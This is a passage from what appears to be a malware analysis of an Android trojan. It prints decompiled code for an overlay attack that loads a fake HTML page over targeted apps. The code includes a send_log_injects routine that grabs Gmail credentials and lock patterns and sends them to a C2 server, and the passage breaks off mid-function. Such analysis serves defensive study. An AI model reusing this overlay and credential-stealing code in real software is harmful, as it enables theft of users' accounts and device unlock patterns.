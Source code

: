 The malware comes with classic features such as overlya attack.  If a targeted APP is opened then the malware will launch the `html` file of the targeted app. 

```cs
protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        this.c = new WebView(this);
        this.c.getSettings().setJavaScriptEnabled(true);
        this.c.setScrollBarStyle(0);
        this.c.setWebViewClient(new b(this, 0));
        this.c.setWebChromeClient(new a(this, 0));
        this.c.loadUrl(this.b.m);
        this.setContentView(this.c);
    }

    @Override  // android.app.Activity
    public void onDestroy() {
        super.onDestroy();
        this.c.removeAllViewsInLayout();
        this.c.removeAllViews();
        this.c.destroy();
        this.c = null;
        this.finish();
    }
```

One of the targeted APPs The malware will try to steal is `Gmail`. The malware will try to steal `Gmail` credential using `Overlay attack`. And The malware will try to steal lockpattern using overlay attack. Then send logs to the C2 server.

```cs
 public void send_log_injects(String s) {
            if(!s.isEmpty()) {
                if(gtzkggpuaqjntiao.this.g.isEmpty()) {
                    String s1 = gtzkggpuaqjntiao.this.b.b(20);
                    gtzkggpuaqjntiao.this.g = s1;
                }

                JSONObject jSONObject0 = new JSONObject();
                if(gtzkggpuaqjntiao.this.f.equals("grabbing_pass_gmail")) {
                    gtzkggpuaqjntiao.this.b.e(this.mContext, gtzkggpuaqjntiao.this.a.aG, "");
                    String s2 = gtzkggpuaqjntiao.this.a("ZWJkNzMxZWFkOTM5NmUzMmE1YTk1NTUyNTAyZDY5YzBiY2RjY2NmMTlj");  // com.google.android.gm ==> Gmail APP
                    gtzkggpuaqjntiao.this.f = s2;
                }

                if(gtzkggpuaqjntiao.this.f.equals("grabbing_lockpattern")) {
                    gtzkggpuaqjntiao.this.b.e(this.mContext, gtzkggpuaqjntiao.this.a.aI, "");
                    gtzkggpuaqjntiao.this.f = "grabbing_lockpattern";
                    String s3 = s.replace(i.f(gtzkggpuaqjntiao.this.a("YzRmYjE2ZjRkYjBlNDMzOTkxZmUxNzQ2NWYyNDRkYzViMWYwYWZmZmJlYWVhOTI2ZGVjOWViMTQyYjcxMzU3YjFlODljYzQ0YTQ5ZTc1OTI0MzJmYjVlYTE1ZDJiMTgwOTMwNTRkNDYzNjRhOGZlMWZmNDcwYzM2Y2JkMGQ3YmQxYzc4YzljNjVmNjVmNTliNjhiNzIwODk5ZjQwYjE1Yg==")), "");  // LCJ0eXBlX2luamVjdHMiOiJwaW5jb2RlIiwiY2xvc2VkIjoiY2xvc2VfYWN0aXZpdHlfaW5qZWN0cyI=
                     // ,"type_injects":"pincode","closed":"close_activity_injects"
                     
                    gtzkggpuaqjntiao.this.b.f(this.mContext, gtzkggpuaqjntiao.this.a.ab, gtzkggpuaqjntiao.this.a("YzRkNzNmYWY5ZTA2NjAyMWJkYTkwOTVkMDQ2OQ==") + s3 + gtzkggpuaqjntiao.this.a("ZDM4OTY4Zjc4YjY0MzI3Njk0"));  // [143523#]
                                                                                                                                                                                                                           // Lock Pattern: 
                }
                else {
                    try {  // application
```
